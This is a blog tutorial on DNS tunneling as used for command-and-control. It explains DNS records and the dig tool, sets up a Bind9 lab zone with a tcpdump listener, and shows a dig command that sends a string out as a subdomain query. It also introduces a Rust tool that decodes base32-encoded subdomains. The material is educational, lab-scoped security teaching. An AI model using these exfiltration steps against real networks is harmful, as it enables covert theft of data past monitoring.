










Summary:
In this article, we will explore DNS tunneling that is used in C2. The goal of this article is to go over the basics of DNS and debug a simple DNS extraction system.
First, we will see how DNS works, then the next section will present the Dig binary. Finally, we will set up an infrastructure to extract data using DNS.
Domain Name System (DNS) is an integral part of the Internet. For example, through domain names, such as www.google.com or google.com, we can reach the web servers that the hosting provider has assigned one or more specific IP addresses. DNS is a system for resolving computer names into IP addresses, and it does not have a central database.
There are several types of DNS servers that are used worldwide:
DNS is mainly unencrypted. Therefore, DNS doesn't implement much security. Nonetheless, DNS Security Extension implements a layer of security by signing records to guarantee their integrity.
There are now some solutions for DNS encryption. By default, IT security professionals apply DNS over TLS (DoT) or DNS over HTTPS (DoH) here. In addition, the network protocol DNSCrypt also encrypts the traffic between the computer and the name server.
Additionally, DNS is a stealthy protocol to use to extract data because it is used by almost all the infrastructure to make name resolution and it is rarely monitored because of the high volume of data which makes it hard to monitor by nature.
A DNS query can be used to show additional information such as the email server for the domain or what the domain's name servers are called.
Different DNS records are used for DNS queries, the table below explains those different records.
| DNS Record | Description |
|---|---|
| A | Returns an IPv4 address of the requested domain as a result. |
| AAAA | Returns an IPv6 address of the requested domain. |
| MX | Returns the responsible mail servers as a result. |
| NS | Returns the DNS servers (nameservers) of the domain. |
| TXT | This record can contain various information. The all-rounder can be used, to validate the Google Search Console or validate SSL certificates. In addition, SPF and DMARC entries are set to validate mail traffic and protect it from spam. |
| CNAME | This record serves as an alias for another domain name. If you want the domain www.google.com to point to the same IP as google.com, you would create an A record for google.com and a CNAME record for www.google.com. |
| PTR | The PTR record works the other way around (reverse lookup). It converts IP addresses into valid domain names. |
| SOA | Provides information about the corresponding DNS zone and email address of the administrative contact. |
The SOA record is located in a domain's zone file and specifies who is responsible for the operation of the domain and how DNS information for the domain is managed.
To be noted that, the dots in the answer should be interpreted as @ for the email address of the zone administrator.
The email should be dns-admin@google.com here.
Therefore, to extract data using DNS, we would need an A record to point to our server IP and a CNAME record in case we want to redirect it to a subdomain.
Domain Information Groper (Dig) is a useful tool for querying DNS servers.
The format of a Dig command is as follows:
dig [query-type] [domain] @[server] [options]The query-type specifies the type of DNS record to query, if not specified, Dig defaults to querying A records.
The domain specifies the domain you are querying about.
The @server is optional and is used to specify which DNS server you want to query. If omitted, dig uses the default server.
The options field, Dig offers various options to format or filter the query result. For example +noauthority will hide the authority section and +noadditional will hide the additional section.
A full query result looks like this:
Indeed, we can distinguish multiple sections in this query result.
In reality, multiple sections can be shown:
By default, Dig shows all the possible sections returned in the query result.
Dig offers a lot of useful options, for example in order for the query to be easily read, the +short option can be used.
dig google.com +short
172.217.18.206To perform reverse DNS lookup the -x option is used:
dig -x 172.217.18.206 +short
google.comSome very interesting options are:
+trace to get all the hops the DNS query had to do to eventually resolve the DNS query.+dnssec which is to debug DNSSEC which is used to secure DNS.+noall +answer +stats which displays only the Answer section with statistics.-f queries.txt which is the Dig command used in batch mode to execute multiple queries from a file.+multiline displays the output on several lines which makes it more readable.I hope you got to grasp a bit more how Dig works, we will carry on implementing a Bind9 DNS server in order to deploy an infrastructure allowing us to test DNS extraction.
An Arch Linux will be used for this part with a bridge network setup. The files won't be placed in the same folders as a Debian-based distribution for example. A guide to bind9 for Debian can be found here: https://wiki.debian.org/BIND9
All DNS servers work with three different types of configuration files:
The Bind9 DNS server is often used on Linux distributions. The local configuration files are usually:
Our named.conf file will look like this:
zone "myextractiondomain.com" {
type master;
file "db.myextractiondomain.com";
};A zone file such as /var/named/db.myextractiondomain.com is a text file that describes a DNS zone with the BIND file format. There must be precisely one SOA record and at least one NS record.
;
; BIND reverse data file for local loopback interface
;
$ORIGIN myextractiondomain.com.
$TTL 86400
@ IN SOA ns1.myextractiondomain.com. myemail.myextractiondomain.com. (
2001062501 ; serial
21600 ; refresh after 6 hours
3600 ; retry after 1 hour
604800 ; expire after 1 week
86400 ) ; minimum TTL of 1 day
IN NS ns1.myextractiondomain.com.
ns1 IN A 192.168.1.15For the Fully Qualified Domain Name (FQDN) to be resolved from the IP address, the DNS server must have a reverse lookup file. In this file, the computer name (FQDN) is assigned to the last octet of an IP address, which corresponds to the respective host, using a PTR record. For this purpose a /var/named/db.192.168.1 file should be created containing the PTR record:
;
; BIND reverse data file for local loopback interface
;
$ORIGIN 192.168.1.in-addr.arpa
$TTL 86400
15 IN PTR ns1.domain.com.We will now go through the actual implementation using Arch Linux, first we need to install the required packages.
pacman -Sy bind
sudo systemctl start namedWe also need a fast and granular way to reload our configuration for that we will use rndc. I advise you to follow the 2.1 section to configure rndc: https://wiki.archlinux.org/title/BIND. For the sake of simplicity, we will generate the configuration with:
sudo rndc-confgenThen this command generate a configuration for /etc/named.conf and /etc/rndc.conf which will be used to make rndc communicate with our bind9 DNS server.
Therefore, we need to reload the DNS server for the configuration to be taken into account:
sudo systemctl restart namedAfter this, we should be able to use:
rndc statusThen, if we add the modification that we previously discussed for our /etc/named.conf successfully adding the myextractiondomain.com zone, and creating the /var/named/db.myextractiondomain.com zone file and the /var/named/db.192.168.1 reverse lookup file.
It is important to set ownership to those files to named user and to give the 640 permissions which RW for the owner and R for the group:
sudo chown -hR named:named /var/named/db.myextractiondomain.com
sudo chown -hR named:named /var/named/db.192.168.1
sudo chmod 640 /var/named/db.myextractiondomain.com
sudo chmod 640 /var/named/db.192.168.1
rndc reloadFor debugging, system logs for the bind9 service can be examine like this:
journalctl -u named -b | grep myextractiondomainOnce the server is reloaded, we should be able to use the dig command from the host or another bridged VM in order to see our NS and SOA record:
We can even inspect the A record we had:
If we make our A record point to our VM IP address and start a listener on port 53, we can see our ANY DNS query:
Moreover, if we want to extract data on a subdomain, we can add a CNAME record that points to a A record by adding those lines to our zone file:
extract IN A 192.168.1.181
sub.myextractiondomain.com. IN CNAME extract.myextractiondomain.com.And then reload the configuration using rndc.
Now we should see our A record if we query it:
Starting our Tcpdump listener on port 53, we should be able to extract data using DNS:
sudo tcpdump -i enp0s3 -n port 53Sending the sensitivedataextracted string using Dig on the subdomain from an external computer:
dig any sensitivedatadextracted.extract.myextractiondomain.com @192.168.1.180We observe the following response from the Tcpdump listener:
We successfully observed that data were extracted using DNS protocol.
In this part, we will automate the process to extract encoded DNS data.
Hence, a Rust crate was created which starts a DNS server and decode base32 encoded subdomain sent from the client.
The project can be found at this URL: Dns Tunneling | Eyilink
To start the DNS server, you need to install cargo which is Rust packet manager:
curl --proto '=https' --tlsv1.2 https://sh.rustup.rs -sSf | sh
rustup update
cd dns_tunneling && cargo runYou should be presented with the following view:
By first encoding our data in base32 and then using dig to send it to our server:
We observe the following successful response from the server:
That's all for this article, we explored the depth of Dig and DNS tunneling techniques. We've learned how DNS works, how to use Dig for querying DNS servers, how to set up a complete DNS infrastructure with Bind9, and finally how to automate DNS data extraction using Rust.
DNS tunneling remains an important technique in cybersecurity, both for understanding potential attack vectors and for legitimate use cases such as data exfiltration testing in controlled environments. The stealthy nature of DNS traffic makes it a valuable tool for security professionals to understand and monitor.
← Back to Blog